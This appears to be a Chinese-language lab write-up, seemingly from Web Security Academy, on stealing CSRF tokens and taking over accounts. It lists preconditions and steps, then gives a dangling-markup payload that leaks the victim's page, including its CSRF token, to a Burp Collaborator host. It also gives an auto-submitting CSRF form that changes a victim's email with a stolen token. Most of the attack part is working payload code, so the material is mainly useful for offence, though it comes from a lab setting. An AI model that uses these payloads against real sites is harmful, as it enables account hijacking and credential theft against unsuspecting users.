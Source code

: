 攻击条件：

1.两个网站可相互访问，在安全策略之内

2.恶意网站（可以是自己搭建的网站）存在存储型xss



利用流程：

1.攻击者在恶意网站上嵌入恶意脚本（可以使用存储型xss，也可以使用自己搭建的网站）

2. 受害网站关键操作，如：更改密码，更改email,支付等地方存在csrf令牌

3.诱使受害者访问恶意网站

4. 恶意网站里面的恶意脚本会获取受害网站关键操作的csrf令牌

5. 使用获取到的csrf令牌，生成csrf poc发送给受害者，受害者点击，即可更改受害者邮箱，密码等





恶意脚本：

```javascript
<script>
location='https://your-lab-id.web-security-academy.net/email?email=%22%3E%3Ctable%20background=%27//your-collaborator-id.burpcollaborator.net?';
</script>
```



csrf poc:

```javascript
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://ac941f5b1e43f70e80e669bd00790046.web-security-academy.net/email/change-email" method="POST">
      <input type="hidden" name="email" value="hacker&#64;evil&#45;user&#46;net" />
      <input type="hidden" name="csrf" value="omSkrJz8jcxQlmBDJbJsTlcoo11iUE5A" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```


